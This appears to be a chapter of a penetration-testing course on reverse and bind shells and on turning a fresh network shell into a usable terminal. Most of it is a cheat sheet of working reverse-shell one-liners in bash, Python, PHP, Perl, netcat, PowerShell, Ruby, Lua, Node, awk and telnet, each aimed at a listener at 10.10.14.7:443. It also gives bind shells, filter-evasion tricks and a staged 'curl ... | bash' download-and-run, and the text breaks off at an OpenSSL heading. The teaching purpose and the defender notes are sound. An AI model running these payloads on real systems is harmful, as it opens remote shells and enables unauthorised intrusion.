







**Level:** Expert · **Track:** Penetration Testing · **Read time:** 80 min

This is Chapter 7 of the Exploitation notebook. The earlier chapters got you code execution — a public exploit fired, a Metasploit session opened, an `msfvenom` payload delivered. But the moment right after that first command runs is where most beginners stall: they have "a shell", and it is almost useless. It echoes nothing, `Ctrl-C` kills the whole thing, `sudo` refuses to run, arrow keys spew `^[[A`, and `su` or `ssh` immediately error out with *"must be run from a terminal."* This chapter is about the two ways a shell reaches you in the first place, and the craft of turning that fragile connection into a terminal you can actually work in.

None of this is optional knowledge. Reverse and bind shells are the plumbing under every framework you have used so far; the "session" Metasploit hands you is one of these two models wearing a nicer coat. And TTY stabilization is the single most common reason a beginner's engagement stalls at the foothold. Learn it once, properly, and it becomes muscle memory.

Everything here assumes an explicit, written, scoped engagement or lab hardware you own. Opening a listener on the internet and inviting a shell into it is not a thought experiment — it is a live inbound channel into a machine. Run these techniques only against systems you are authorised to test.

---

## Part 1: What a Shell Actually Is

Before "reverse" or "bind" means anything, be precise about what a shell *is*. A shell is a program — `/bin/bash`, `/bin/sh`, `cmd.exe`, `powershell.exe` — that reads commands on its **standard input (stdin)**, runs them, and writes results to its **standard output (stdout)** and **standard error (stderr)**. On a normal login, those three file descriptors are wired to a terminal device (a TTY). When you get a shell over the network during an engagement, the trick is simple to state and subtle in practice: you redirect those three file descriptors over a TCP socket instead of a terminal.

That single sentence explains almost every quirk you will fight in this chapter. When stdin/stdout/stderr point at a raw socket rather than a TTY:

- There is **no line editing** — no arrow keys, no history, no tab completion.
- There is **no job control** — `Ctrl-Z`, `Ctrl-C`, and background jobs behave wrongly or kill your session.
- Programs that *demand* a terminal (`ssh`, `su`, `sudo` in some configs, `passwd`, `vi`, `top`, text pagers) refuse to run or hang.
- Output can arrive **unbuffered and mangled**, and your own keystrokes may not echo.

The entire second half of this chapter — stabilization — is the work of putting a real TTY back in front of that socket.



**Security relevance:** understanding that a network shell is "just" redirected file descriptors is what lets you reason about *why* an upgrade works. Every stabilization trick is a way of re-inserting a pseudo-terminal (PTY) between the socket and the shell process.

### Standard streams and file descriptors

Every process starts with three open file descriptors:

| FD | Name | Default target | In a network shell |
|----|------|----------------|--------------------|
| 0 | stdin | keyboard/TTY | the attacker's socket |
| 1 | stdout | screen/TTY | the attacker's socket |
| 2 | stderr | screen/TTY | the attacker's socket (usually) |

The classic payload fragment `0<&196;exec 196<>/dev/tcp/ATTACKER/PORT; sh <&196 >&196 2>&196` is nothing more than "open a TCP socket as FD 196, then point sh's three streams at it." Once you can read a redirection like that, reverse-shell one-liners stop being magic strings you copy blindly and become things you can modify on the fly when a payload gets filtered.

---

## Part 2: Direction Is Everything — Reverse vs Bind

There are exactly two directions a shell connection can go, and the choice is dictated almost entirely by **firewalls**, not preference.

### Bind shell: the target listens, you connect

In a **bind shell**, the payload on the target opens a listening port and waits. The shell binds to, say, TCP 4444 on the victim, and *you* connect *to it*.



The catch: the victim now has an open inbound port. For you to reach it, the network path from you to the victim must allow inbound traffic to that port. On any realistic corporate network, **inbound connections from the outside are heavily filtered** — perimeter firewalls, NAT, host firewalls. Bind shells therefore work best when you are already *inside* the network (same segment) or against a target with no ingress filtering.

### Reverse shell: you listen, the target connects out

In a **reverse shell**, *you* open the listener on your machine, and the payload makes the *target* connect *out to you*. The shell's streams ride that outbound connection.



The reason reverse shells dominate real engagements: **outbound traffic is usually far less filtered than inbound.** A victim workstation is allowed to browse the web on 80/443, so a reverse shell to your listener on port 443 sails straight through egress rules that would block any inbound bind attempt. This is why almost every reverse-shell cheat sheet defaults to ports like 443, 80, 8443, or 53 — they blend into permitted egress.

### The decision, as a table

| Situation | Use | Why |
|-----------|-----|-----|
| Target behind NAT / perimeter firewall | **Reverse** | Outbound allowed, inbound blocked |
| You are on the same LAN segment as target | Bind (or reverse) | No firewall between you |
| Target has strict egress filtering, you have inbound | Bind | Outbound blocked, you can reach in |
| Target allows outbound 443 only | Reverse to :443 | Blends with HTTPS egress |
| You want the most reliable default | **Reverse to 443/80** | Egress is the common weak point |

**Red team usage:** reverse shells to 443 are the default first move precisely because they abuse the same egress paths that normal user traffic uses. **Blue team usage:** this is also exactly why egress filtering and outbound proxy inspection catch so many operators — a workstation "connecting out to a random IP on 443 with no TLS" is a strong signal (more in Part 11).



---

## Part 2.5: Raw Shells vs Framework Sessions

You have already met Meterpreter. It is worth being explicit about how a raw netcat shell relates to a Metasploit session, because operators move between them constantly.

| Property | Raw reverse/bind shell (`nc`) | Meterpreter / framework session |
|----------|-------------------------------|---------------------------------|
| Transport | plaintext TCP (unless you wrap it) | encrypted, staged, multiplexed |
| Interactivity | none until you stabilize | rich commands (`upload`, `hashdump`, `portfwd`) |
| Stability | dies on TCP drop | auto-reconnect, session management |
| Footprint | tiny (fits a one-liner) | larger stager, more detectable in memory |
| When to use | first foothold, constrained RCE, minimal payload | when you can deliver a bigger payload and want post-ex tooling |

The two interconvert. Inside Meterpreter, `shell` drops you to a raw OS shell (which you then stabilize exactly as in Part 8). Going the other way, from a raw shell you can upgrade to Meterpreter by generating a matching payload and catching it:

```bash
# in msfconsole: session -u upgrades a raw shell session to Meterpreter
sessions -u 1
```

`sessions -u <id>` runs `post/multi/manage/shell_to_meterpreter` against an existing raw shell session, delivering and executing a Meterpreter stager over it. The practical rule: **catch the smallest thing that works first (a raw reverse shell), stabilize it, then upgrade** if you need the heavier tooling. Never gamble your only foothold on a large, easily-blocked payload when a two-hundred-byte one-liner will land.



---

## Part 3: Setting Up the Listener (Attacker Side)

For a reverse shell you need something on your box listening for the incoming connection. The workhorse is **netcat** (the next chapter is devoted to netcat and socat in depth; here we cover just enough to catch a shell).

### Netcat as a listener — from scratch

**Netcat (`nc`)** is a tiny utility that reads and writes data across network connections using TCP or UDP. Think of it as "cat, but over a socket." It has no built-in encryption and no session management — it just moves bytes. That simplicity is exactly why it is the universal shell catcher.

Install on Kali (usually preinstalled):

```bash
sudo apt update && sudo apt install -y netcat-traditional ncat
```

Start a listener:

```bash
nc -lvnp 443
```

Flag by flag:

| Flag | Meaning |
|------|---------|
| `-l` | **listen** mode (wait for an inbound connection instead of making one) |
| `-v` | **verbose** — print connection status ("connect to ... from ...") |
| `-n` | **numeric only** — do not do DNS resolution (faster, quieter, avoids lookups) |
| `-p 443` | **port** to listen on (443 needs root; ports <1024 are privileged) |

You will see it block, waiting:

```
listening on [any] 443 ...
```

When the victim connects, netcat prints the source and drops you into the remote shell:

```
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.5] 49512
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

That `id` output over a socket is the moment of foothold. Note there is no prompt (`$`) — that missing prompt is your first clue you have a *non-interactive* shell that needs stabilizing.

### A better catcher: `ncat` and `rlwrap`

Two upgrades make catching shells far less painful:

- **`ncat`** (from the Nmap project) supports TLS and access control. `ncat -lvnp 443 --ssl` catches an encrypted shell, useful for evading plaintext IDS signatures in a lab.
- **`rlwrap`** wraps any command with GNU readline, giving you **arrow-key history and basic line editing** even before you do a full TTY upgrade:

```bash
rlwrap nc -lvnp 443
```

Install: `sudo apt install -y rlwrap`. Wrapping `nc` in `rlwrap` is the cheapest quality-of-life win in this whole chapter — do it by default.

**Metasploit's catcher.** The `multi/handler` you used in earlier chapters is a listener too:

```bash
msfconsole -q -x "use exploit/multi/handler; set payload linux/x64/shell_reverse_tcp; set LHOST tun0; set LPORT 443; run"
```

`multi/handler` can catch a plain reverse shell (`shell_reverse_tcp`) or a full Meterpreter session, depending on the `payload` you set — it must match what the target will send.

---

## Part 4: Reverse Shell Payloads — One-Liners by Language

Once your listener is up, you need the target to connect back. Which one-liner you use depends on what interpreters exist on the victim. Always set `ATTACKER` and `PORT` to your listener. In these examples the listener is `10.10.14.7:443`.

### Bash (`/dev/tcp`)

Bash has a built-in pseudo-device `/dev/tcp/host/port` (when compiled with it, which Kali/Ubuntu bash is):

```bash
bash -i >& /dev/tcp/10.10.14.7/443 0>&1
```

Reading it: `bash -i` starts an **interactive** bash; `>& /dev/tcp/...` redirects both stdout and stderr to a TCP connection to your listener; `0>&1` points stdin at that same connection. Result: bash talks to your socket. If `>&` gets filtered, an equivalent longer form:

```bash
exec 5<>/dev/tcp/10.10.14.7/443; cat <&5 | while read line; do $line 2>&5 >&5; done
```

**Note:** `/dev/tcp` is a *bash* feature, not a real file — `sh -c "... /dev/tcp ..."` fails on Debian where `/bin/sh` is `dash`. Always invoke `bash -c` explicitly if unsure.

### Python

Python is on almost every Linux box. This spawns a shell wired to a socket and is one of the most reliable one-liners:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

Why this one is special: `pty.spawn("/bin/bash")` gives you a **PTY on the target from the start** — a partial stabilization for free (more in Part 8). `os.dup2(s.fileno(), 0/1/2)` is the exact "point FDs 0,1,2 at the socket" idea from Part 1, expressed in Python.

### PHP

For a compromised web app running PHP:

```bash
php -r '$sock=fsockopen("10.10.14.7",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

`fsockopen` opens the socket as FD 3; `exec` runs `sh` with its three streams pointed at FD 3.

### Perl

```bash
perl -e 'use Socket;$i="10.10.14.7";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Netcat variants

If the target has netcat, the shell can be one line. Traditional netcat with `-e`:

```bash
nc -e /bin/sh 10.10.14.7 443
```

Many modern netcat builds **omit `-e`** for safety. The classic FIFO workaround needs no `-e`:

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.7 443 > /tmp/f
```

This creates a named pipe, feeds the listener's input into `sh`, and pipes `sh`'s output back to the listener through the FIFO — a full-duplex loop with plain `nc`.

### PowerShell (Windows targets)

Windows rarely has netcat, but always has PowerShell:

```powershell
$c=New-Object System.Net.Sockets.TCPClient("10.10.14.7",443);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1|Out-String);$sb2=$sb+"PS "+(pwd).Path+"> ";$sn=([Text.Encoding]::ASCII).GetBytes($sb2);$s.Write($sn,0,$sn.Length);$s.Flush()}
```

This opens a TCP client to your listener, reads commands, runs them with `iex` (Invoke-Expression), and writes the output back. In practice you would base64-encode and run it via `powershell -enc` to avoid quoting hell — covered in the Windows chapters.

### Ruby, Lua, Node, awk and telnet fallbacks

Real targets are diverse; the interpreter you expect may be missing while an odd one is present. Keep these in reserve.

**Ruby** (common on Rails hosts, macOS):

```bash
ruby -rsocket -e'exit if fork;c=TCPSocket.new("10.10.14.7","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

**Lua** (found on embedded devices, some game servers, nginx+OpenResty):

```bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.10.14.7',443);os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

**Node.js**:

```bash
node -e 'require("child_process").exec("bash -i >& /dev/tcp/10.10.14.7/443 0>&1")'
```

**awk** (present on virtually every Unix, useful when nothing else survives filtering):

```bash
awk 'BEGIN{s="/inet/tcp/0/10.10.14.7/443";while(1){do{printf "shell> " |& s;s |& getline c;if(c){while((c |& getline)>0)print $0 |& s;close(c)}}while(c!="exit")close(s)}}' /dev/null
```

**telnet** double-pipe (when only telnet exists — old appliances):

```bash
mkfifo /tmp/p; telnet 10.10.14.7 443 0</tmp/p | /bin/sh 1>/tmp/p
```

### The reference table

| Interpreter | Present on | One-liner spine |
|-------------|-----------|-----------------|
| bash | most Linux | `bash -i >& /dev/tcp/IP/PORT 0>&1` |
| python3 | most Linux | `pty.spawn` socket dup2 |
| php | web servers | `fsockopen` + `exec` |
| perl | many Linux | `Socket` + `exec /bin/sh -i` |
| ruby | Rails/macOS | `TCPSocket` + `IO.popen` |
| lua | embedded/OpenResty | `socket.tcp` + `os.execute` |
| node | JS backends | `child_process.exec` bash |
| awk | all Unix | `/inet/tcp/0/IP/PORT` |
| telnet | legacy appliances | dual-FIFO pipe |
| nc (-e) | some Linux | `nc -e /bin/sh IP PORT` |
| nc (no -e) | most Linux | `mkfifo` loop |
| powershell | all Windows | `TCPClient` + `iex` loop |

**CTF/bug-bounty note:** PayloadsAllTheThings and the PentestMonkey reverse-shell cheat sheet are the canonical references; the RevShells.com generator (run it locally or from memory) builds these from your LHOST/LPORT and is worth internalising rather than blindly pasting. On a bug-bounty RCE you will often have exactly one shot to fire a shell before a WAF or short-lived process kills the request — pick the interpreter you have *confirmed* exists (via a prior `id`/`which` injection) rather than guessing.

### Choosing the right one under filtering

When a WAF or input filter mangles your payload, the failure is usually one of a few characters: spaces, `&`, `>`, `/`, or quotes. Common bypasses:

- **Spaces blocked:** use `${IFS}` in bash — `bash${IFS}-c${IFS}...` — or brace expansion.
- **`>` / `&` blocked:** prefer the Python or awk payloads that don't rely on shell redirection syntax.
- **Length-limited field:** stage it. Fire a tiny first-stage that downloads and runs a second-stage script: `curl 10.10.14.7/s|bash` (host the real reverse shell in `s`).
- **Quotes stripped:** base64 the payload and decode on target — `echo BASE64|base64 -d|bash`.

```bash
# staged: tiny first stage, full reverse shell hosted on your box
curl -s http://10.10.14.7:8000/s.sh | bash
# where s.sh contains: bash -i >& /dev/tcp/10.10.14.7/443 0>&1
```

---

## Part 5: Bind Shell Payloads

Bind shells flip the direction: the payload listens on the target, you connect in. Fewer situations call for them, but when egress is fully blocked and you have an inbound path, they are the only option.

### Netcat bind shell

On the **target** (via your code-exec primitive):

```bash
nc -lvnp 4444 -e /bin/sh
```

or, without `-e`:

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -lvnp 4444 > /tmp/f
```

On the **attacker**, connect in:

```bash
nc -v TARGET_IP 4444
```

### Python bind shell

```bash
python3 -c 'import socket,os,pty;s=socket.socket();s.setsockopt(socket.SOL_SOCKET,socket.SO_REUSEADDR,1);s.bind(("0.0.0.0",4444));s.listen(1);c,a=s.accept();[os.dup2(c.fileno(),f) for f in (0,1,2)];pty.spawn("/bin/bash")'
```

`SO_REUSEADDR` lets you rebind the port quickly if the shell dies — a small but real convenience during iterative testing.

### PowerShell bind (conceptual)

Windows bind shells listen with `System.Net.Sockets.TcpListener`. They are noisy and rarely needed given how permissive most Windows egress is; a reverse shell to 443 is almost always preferable.

**Blue team usage:** a process like `nc`, `python`, or `powershell` calling `bind()`/`listen()` on a non-standard port is highly anomalous on a workstation and is a strong EDR detection — normal user apps don't open listeners.

---

## Part 6: Why Your Fresh Shell Is Broken

You caught the shell. Now everything is subtly wrong. Understanding *why* makes the fixes obvious rather than magic.

A fresh `nc` reverse shell running `/bin/sh` has **no controlling terminal**. Concretely, that means:

1. **No job control.** Pressing `Ctrl-C` sends `SIGINT`, but because there's no TTY managing a foreground process group, the signal often kills your whole netcat/shell instead of just the running command. One accidental `Ctrl-C` and your foothold is gone.
2. **No line editing / history.** Arrow keys emit escape sequences (`^[[A`) as literal text. No tab completion.
3. **Programs that require a TTY fail.** `su`, `ssh`, `sudo` (with `requiretty`), `passwd`, `vi`, `nano`, `top`, `less`, `screen` — all check `isatty()` and refuse or misbehave. You'll see errors like `su: must be run from a terminal` or `the input device is not a TTY`.
4. **No echo control / password prompts break.** Interactive password prompts that turn off echo can't, so passwords may appear on screen or the prompt hangs.
5. **Output buffering & garbling.** Full-screen programs corrupt the display; terminal width/height is unset so wrapping is wrong.

The fix in every case is the same idea: **get a real pseudo-terminal (PTY) between the socket and the shell**, then tell it your real terminal's size and settings.



---

## Part 7: What a PTY Is (and isn't)

A **PTY (pseudo-terminal)** is a pair of virtual character devices — a *master* and a *slave* — that emulate a real hardware terminal in software. When you SSH in or open a terminal emulator, the OS gives you a PTY (`/dev/pts/N`). The slave side behaves exactly like an old serial terminal: it handles line discipline (canonical vs raw mode), echo, signal generation from control characters (`Ctrl-C` -> SIGINT), and window size.

Your netcat shell lacks a PTY. Stabilization is the act of allocating one on the target and attaching your shell to it. Three families of technique do this:

1. **Interpreter PTY spawn** — `python -c 'import pty; pty.spawn("/bin/bash")'` (and `script`, `expect`, etc.).
2. **socat PTY relay** — socat allocates a real PTY on both ends and connects them (the gold standard; Part 9).
3. **Meterpreter `shell` channels** — the framework can request a PTY for you.

`isatty()` — the C library check programs use to decide "am I attached to a terminal?" — returns true once a PTY is present. That single check is the gatekeeper for `ssh`, `su`, and friends.

---

## Part 8: The Python + stty Stabilization Ritual

This is the most widely used upgrade path and you should be able to perform it from memory. It has three stages.

### Stage 1 — Spawn a PTY with Python

In your fresh (dumb) shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

If `python3` isn't present, try `python`, then `python2`. `pty.spawn` allocates a PTY and runs bash attached to it. You'll now get a proper `$` prompt and many programs (`su`, `ssh`) start working. But `Ctrl-C` still kills the session and there's no history yet — because your *local* terminal is still cooking the input line-by-line and passing control characters straight through.

Alternatives if Python is missing:

```bash
script -qc /bin/bash /dev/null      # 'script' is on almost every Linux box
```

`script` records a terminal session; `-q` is quiet, `-c` runs a command, `/dev/null` discards the typescript. It allocates a PTY as a side effect — a superb fallback.

```bash
# other spawns
/usr/bin/expect -c 'spawn /bin/bash; interact'
perl -e 'exec "/bin/bash";'
```

### Stage 2 — Hand terminal control to the remote PTY

Now the clever part. Background the remote shell and fix your *local* terminal:

```
Ctrl-Z            # suspend the netcat process back to your local shell
stty raw -echo; fg
                  # (you won't see 'fg' echoed — that's expected)
```

What just happened:

- `Ctrl-Z` suspends netcat, dropping you to your Kali shell.
- `stty raw` puts *your local terminal* into **raw mode**: it stops line-buffering and stops interpreting control characters locally, sending every keystroke straight through to the remote PTY. Now `Ctrl-C` travels to the remote and generates SIGINT *there*, killing only the remote foreground command — not your session.
- `-echo` turns off local echo so characters aren't printed twice (the remote PTY echoes them).
- `fg` resumes netcat in the foreground.

Then press Enter once or twice and, in the remote shell:

```bash
export TERM=xterm-256color
export SHELL=/bin/bash
```

`TERM` tells full-screen programs (vi, less, top) how to draw. Without it you get `Error opening terminal: unknown.`

### Stage 3 — Match the terminal size

Full-screen apps need to know your window dimensions. In your *local* terminal (open a second tab, or before you started), run:

```bash
stty -a | head -1
# speed 38400 baud; rows 50; columns 204; line = 0;
```

Then set the same in the remote shell:

```bash
stty rows 50 columns 204
```

Now `vi`, `less`, `nano`, and `top` render correctly, text wraps at the right column, and clear-screen works.

### Recovering if you break your local terminal

If you exit the shell while your local terminal is still in raw mode, it'll look garbled — no line breaks, no echo. Fix it blind:

```bash
reset
# or
stty sane
```

Type it even if you can't see it and press Enter; the terminal returns to normal.

### The whole ritual, in order



| Symptom | Cause | Fix |
|---------|-------|-----|
| `Ctrl-C` kills the shell | no PTY / local cooked mode | PTY spawn + `stty raw -echo` |
| Arrow keys print `^[[A` | no readline / no PTY | PTY spawn (bash readline) |
| `su: must be run from a terminal` | `isatty()` false | PTY spawn |
| `vi`/`top` garbled | `TERM` unset / wrong size | `export TERM`; `stty rows/cols` |
| No password echo control | no TTY line discipline | PTY spawn |
| Local terminal broken after exit | left in raw mode | `reset` / `stty sane` |

---

## Part 9: socat — The Fully-Upgraded Shell

`socat` ("SOcket CAT") is netcat's powerful cousin: it connects two bidirectional byte streams and can allocate a **real PTY** on each end. A socat-to-socat shell is interactive *from the first keystroke* — no post-hoc stty dance. The next chapter covers socat exhaustively; here is the shell recipe.

**Attacker listener** (allocate a PTY, raw mode, echo off):

```bash
socat -d -d TCP-LISTEN:443,reuseaddr,fork FILE:`tty`,raw,echo=0
```

- `-d -d` — increase debug verbosity (see connection events).
- `TCP-LISTEN:443` — listen on 443; `reuseaddr` lets you rebind fast; `fork` handles multiple connections.
- `FILE:\`tty\`,raw,echo=0` — attach the connection to your current terminal in raw mode with echo disabled.

**Target** (spawns bash on a PTY and connects back):

```bash
socat TCP:10.10.14.7:443 EXEC:'bash -li',pty,stderr,setsid,sigint,sane
```

Each `EXEC` option earns its place:

| Option | Effect |
|--------|--------|
| `pty` | allocate a pseudo-terminal for bash |
| `stderr` | route stderr into the PTY too (so errors show) |
| `setsid` | run in a new session (own process group -> proper job control) |
| `sigint` | pass `Ctrl-C` through as SIGINT to the remote |
| `sane` | apply sane terminal settings |
| `bash -li` | login + interactive bash |

The catch: socat must be *on the target*. If it isn't, upload a **static socat binary** (a single self-contained file with no library dependencies):

```bash
# on attacker: serve the binary
python3 -m http.server 8000
# on target: fetch and run
wget http://10.10.14.7:8000/socat -O /tmp/socat && chmod +x /tmp/socat
/tmp/socat TCP:10.10.14.7:443 EXEC:'bash -li',pty,stderr,setsid,sigint,sane
```

Static socat binaries for many architectures ship with the well-known `static-binaries` repos and are a staple of any operator's toolkit.

### Handling window resize automatically

After you upgrade with the Python+stty method, resizing your local terminal window does NOT tell the remote PTY. Full-screen apps will draw at the old size. A trap that re-syncs on every `SIGWINCH` (window-change signal) is overkill mid-engagement, but you can re-run `stty rows R columns C` whenever you notice mis-drawing. socat shells avoid this entirely because the PTY is negotiated properly. This is one more reason to prefer socat when the binary is available.

---

## Part 9.5: Encrypted & Resilient Shells

Plaintext shells are trivial to fingerprint on the wire (Part 11). In an authorised test where you want to model a realistic adversary — or simply avoid a noisy IDS — wrap the channel in TLS.

### OpenSSL reverse shell

